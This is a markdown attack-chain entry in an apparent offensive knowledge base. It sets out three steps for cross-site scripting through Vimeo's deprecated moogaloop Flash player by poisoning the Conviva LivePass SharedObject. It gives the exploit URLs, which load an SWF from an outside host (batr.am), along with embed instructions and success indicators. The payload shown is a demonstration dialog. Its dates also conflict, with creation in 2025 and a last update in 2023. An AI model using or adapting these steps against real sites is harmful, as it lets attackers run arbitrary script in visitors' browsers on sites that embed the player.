

---
tags:
  - xss
  - flash
  - vimeo
  - sharedobject
  - conviva
  - livepass
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - Flash
submitted: true
complexity: medium
procedures:
  - '[[procedures/Set-Malicious-Flash-SharedObject-via-CDN-URL]]'
  - '[[procedures/Verify-SharedObject-Setting-with-Confirm-Dialog]]'
  - '[[procedures/Trigger-XSS-via-Embedded-Vimeo-Player-Playback]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Multi-stage attack exploiting unsandboxed Flash inclusion in Vimeo's
  deprecated moogaloop.swf to poison the Conviva LivePass SharedObject, enabling
  arbitrary JavaScript execution as cross-site scripting on any site embedding
  the player during video playback.
skill_level: intermediate
impact_level: high
id: fb00f4d1-4733-4df5-8caa-c692d357091c
created_at: '2025-12-14T03:16:14.583Z'
updated_at: '2025-12-14T03:16:14.583Z'
validated: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# XSS via SharedObject Poisoning in Deprecated Vimeo Moogaloop Flash Player

Multi-stage attack chain demonstrating a complete attack workflow exploiting a vulnerability in Vimeo's deprecated Flash player to achieve cross-site scripting on embedding sites.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser with Adobe Flash Player enabled (e.g., legacy Firefox or Chrome with Flash extension)

### Target Environment

- Web platform with Flash support
- Deprecated Vimeo embed code using moogaloop.swf (version 6.0.30 or similar)
- Access to f.vimeocdn.com domain
- Conviva LivePass service integration in the player

### Initial Access Requirements

- No credentials required
- Public network access to Vimeo CDN URLs
- Victim site must embed the vulnerable moogaloop Flash player

## Detailed Attack Procedures

### Step 1: Poison SharedObject
procedure: [[procedures/Set-Malicious-Flash-SharedObject-via-CDN-URL]]

**Objective**: Exploit unsandboxed Flash inclusion to load a malicious SWF in the f.vimeocdn.com security domain and set the SharedObject to cache a malicious SWF URL.

**Instructions**: Open a web browser with Flash enabled and navigate to the crafted URL that loads moogaloop.swf with a malicious cdn_url parameter pointing to a controlled SWF file. This SWF will execute in the trusted domain and modify the SharedObject 'com.conviva.livePass.lastSwfUrls' to reference the attacker's malicious SWF.

Access the following URL:

```url
http://f.vimeocdn.com/p/flash/moogaloop/6.0.30/moogaloop.swf?cdn_url=https://batr.am/exmp/v/10ece191bd6f4806ed0e7a165931a890a47ea250//set_shared_con.swf%3f
```

The set_shared_con.swf will cache http://batr.am/t2.swf (a malicious SWF that executes JavaScript via ExternalInterface, e.g., confirm('moin: ' + document.domain)).

**Expected Output**: The malicious SWF loads silently in the background; no immediate visible output, but the SharedObject is now poisoned.

**Success Indicators**:
- No errors in browser console related to Flash loading
- SharedObject modification completes without sandbox violations

### Step 2: Verify SharedObject Setting
procedure: [[procedures/Verify-SharedObject-Setting-with-Confirm-Dialog]]

**Objective**: Confirm that the SharedObject has been successfully set by observing execution indicators from the initial poisoning step.

**Instructions**: Allow a brief period (e.g., 10-30 seconds) for the Flash content to fully load and execute after accessing the URL from Step 1. Monitor for any pop-up dialogs or console messages indicating JavaScript execution from the cached malicious SWF.

No additional commands needed; simply wait and observe the browser.

**Expected Output**: A confirm dialog appears with message like 'moin: example.com' if the malicious SWF executes successfully during the poisoning.

**Success Indicators**:
- Confirm dialog pops up confirming domain access
- No Flash errors or crashes

### Step 3: Trigger XSS Execution
procedure: [[procedures/Trigger-XSS-via-Embedded-Vimeo-Player-Playback]]

**Objective**: Load a page embedding the vulnerable Vimeo player and initiate video playback to trigger the videoControllerProgressive.swf to load the poisoned SharedObject's malicious SWF, resulting in arbitrary JavaScript execution on the embedding domain.

**Instructions**: Create or access a target page that embeds the deprecated moogaloop.swf using old Vimeo embed code. Replace VIDEO_ID with a valid ID (e.g., 38626783). Alternatively, directly load the player SWF with autoplay.

Example embed page URL (with VIDEO_ID replaced):

```url
http://batr.am/exmp/v/10ece191bd6f4806ed0e7a165931a890a47ea250/vimeo.html
```

Or direct player load:

```url
http://f.vimeocdn.com/p/flash/moogaloop/6.0.31/moogaloop.swf?clip_id=38626783&autoplay=true
```

Start video playback; the controller will check the SharedObject and load the malicious cached SWF, executing JS like confirm('XSS triggered on ' + document.domain).

**Expected Output**: JavaScript alert or confirm dialog executes in the context of the embedding site's domain, demonstrating XSS.

**Success Indicators**:
- Malicious JS executes (e.g., dialog appears)
- Arbitrary code runs on the target domain without direct access

## Attack Chain Summary

### Key Achievements

1. Successful poisoning of Flash SharedObject in a trusted CDN domain
2. Persistent caching of malicious SWF for later retrieval
3. Cross-domain JavaScript execution leading to XSS on arbitrary embedding sites

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01*
